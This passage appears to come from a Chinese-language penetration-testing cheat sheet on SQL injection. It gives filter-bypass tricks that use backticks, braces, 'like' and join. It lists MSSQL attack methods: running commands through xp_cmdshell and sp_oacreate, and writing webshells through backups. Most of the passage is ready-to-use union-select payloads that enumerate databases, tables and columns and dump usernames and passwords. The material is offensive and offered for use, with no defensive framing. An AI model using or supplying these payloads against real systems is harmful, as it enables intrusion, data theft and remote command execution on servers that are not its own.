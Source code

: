 ##### 特殊符号绕过

- 反引号绕过空格和正则,特殊情况可以作为注释符使用
- `-+`连接字符串
- `括号`-->?id=(1)
- `花括号`-->?id=-1'union select 1,{x 2},3 --+
- `等号`-->`table_schema=database()`替换为`table_schema like database()`
- `and,or`替换
- `逗号`使用join替换-->?id=-1'union select * from (select 1)a join (select 2)b join (select 3)c --+

### Mssql注入(1433)

#### 攻击手法

- 1.sql注入查询登录用户的`hash`
- 2.`扩展存储过程`的`xp_cmdshell`执行命令 ,`xp_regwrite`写注册表
- 3.`系统存储过程`的`sp_oacreate`和`sp_oamethod`执行命令,`sp_addextendproc`恢复组件
- 4.`CLR组件`执行系统命令
- 5.`差异备份`写webshell
- 6.`日志备份`写webshell

##### 判断服务器权限

```sql
and 1=(select is_srvrolemember('sysadmin'))
```

#### 联合查询注入

```sql
#获取数据库版本信息
?id=-1'union select top 1 1,2,@version --+
#查询当前数据库名
?id=-1'union select top 1 1,2,db_name() --+
#获取所有数据库名
?id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases)--+
```

```sql
#获取当前数据库名
?id=0'union select top 1 1,2,db_name() --+
?id=0'union select top 1 1,2,name from master.sys.databases --+

#获取其它数据库名
?id=0'union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+

#获取当前表名
?id=0'union select top 1 1,2,table_name from information_schema.tables --+

#获取所有表名
?id=0'union select top 1 1,2,table_name from information_schema.tables where table_name not in (select top m table_name from information_schema.tables)--+

#获取当前列名
?id=0'union select top 1 1,2,column_name from information_schema.columns --+

#获取所有列名
?id=0'union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in (select top 1 column_name from information_schema.columns where table_name='users')--+

#获取当前数据
?id=0'union select top 1 1,username,password from users --+

```